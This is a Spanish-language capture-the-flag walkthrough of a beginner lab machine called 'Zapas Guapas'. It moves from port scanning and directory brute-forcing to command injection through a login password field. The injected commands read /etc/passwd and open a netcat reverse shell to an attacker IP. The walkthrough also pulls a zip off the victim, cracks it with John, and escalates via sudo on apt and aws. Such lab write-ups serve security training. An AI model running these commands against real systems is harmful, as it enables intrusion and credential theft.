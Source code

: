 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Zapas Guapas

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.70
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (706).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.70
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (707).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.70
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (708).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página de una tienda de zapatillas.

<figure><img src="../../.gitbook/assets/image (709).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml,js -u http://192.168.1.68
```



Vemos que hay un archivo `login.html` que revisaremos.

<figure><img src="../../.gitbook/assets/image (710).png" alt=""><figcaption></figcaption></figure>

Probando varias opciones me he dado cuenta que hay una ejecución remota de comandos por lo que a poner cualquier usuario y añadir en el campo contraseña el comando:

```bash
cat /etc/passwd
```

Nos damos cuenta de 3 usuarios **root**, **pronike** y **proadidas**. Voy a realizar una Reverse Shell.

```bash
busybox nc 192.168.1.50 443 -e sh
```

Tras ponerme en escucha y realizar tratamiento de la TTY. Como se nos muestra aquí: [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/). Indagando en el usuario **pronike** encontramos un archivo `nota.txt`.

<figure><img src="../../.gitbook/assets/image (711).png" alt=""><figcaption></figcaption></figure>

También encontramos en el directorio `/opt` un zip que nos descargamos a nuestra máquina local.

```
En la máquina víctima
python3 -m http.server 8080
En la máquina atacante
wget http://192.168.1.70:8080/importante.zip
```

<figure><img src="../../.gitbook/assets/image (712).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Ahora realizamos fuerza bruta.

```bash
zip2john importante.zip > hash_zip
```

```bash
john hash_zip --wordlist=/usr/share/wordlists/rockyou.txt 
```

<figure><img src="../../.gitbook/assets/image (713).png" alt=""><figcaption></figcaption></figure>

Obtenemos la contraseña para descomprimir el **.zip**.

<figure><img src="../../.gitbook/assets/image (714).png" alt=""><figcaption></figcaption></figure>

```bash
ssh pronike@192.168.1.70
```

<figure><img src="../../.gitbook/assets/image (715).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (716).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos sudo en **apt**. Para más detalles, visitamos [GTFObins - apt](https://gtfobins.github.io/gtfobins/apt/).

<figure><img src="../../.gitbook/assets/image (717).png" alt=""><figcaption></figcaption></figure>

Repetimos el proceso, por lo que hacemos:

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/image (720).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos sudo en **aws**. Para más detalles, visitamos [GTFObins - AWS](https://gtfobins.github.io/gtfobins/aws/)

<figure><img src="../../.gitbook/assets/image (721).png" alt=""><figcaption></figcaption></figure>

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
